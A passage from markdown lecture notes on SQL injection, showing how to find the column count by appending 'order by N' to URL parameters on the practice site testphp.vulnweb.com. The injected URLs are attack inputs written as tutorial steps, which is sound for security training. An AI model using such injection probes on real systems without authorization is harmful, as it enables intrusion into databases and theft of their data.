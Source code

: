 		<br><img src="../../notes-pics/03-Module/21_lecture/21_lecture-1-M3.jpg" alt="" width="500"/>
	- STEP 2.2 : for 2nd column , write `http://testphp.vulnweb.com/artists.php?artist=1 order by 2` , 
		<br>output : so again we'll get output
	- so the way we gave for 2nd column then same with 3rd column , <br>
		so increase the columns to check on which column we're getting error ✔️
	- STEP 2.3 : checking for 3rd column , write `http://testphp.vulnweb.com/artists.php?artist=1 order by 3` , 
		<br>output : so again we'll get output
	- STEP 2.4 : checking for 4th column , write `http://testphp.vulnweb.com/artists.php?artist=1 order by 4` , 
		<br>output : a error ✔️ <br>